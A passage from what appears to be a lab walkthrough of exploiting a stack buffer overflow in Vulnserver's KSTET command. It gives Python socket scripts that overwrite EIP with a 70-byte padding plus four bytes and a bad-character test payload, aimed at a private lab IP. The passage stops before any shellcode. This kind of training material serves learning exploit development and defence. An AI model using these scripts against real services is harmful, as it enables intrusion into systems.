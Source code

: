 So we should use ```6 bytes``` of KSTET and ```70 bytes``` of A's to reach EIP

## Overwriting instruction pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the EIP with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-overwrite.png">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets pass bad characters on our ```buffer memory``` to see our data dump on that region,

```c
import socket, sys
# collection of badchars except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# passing badchars on buffer and EBP
payload+=badchars[0:70]
# to overwrite EIP
payload+=b"B"*4
```
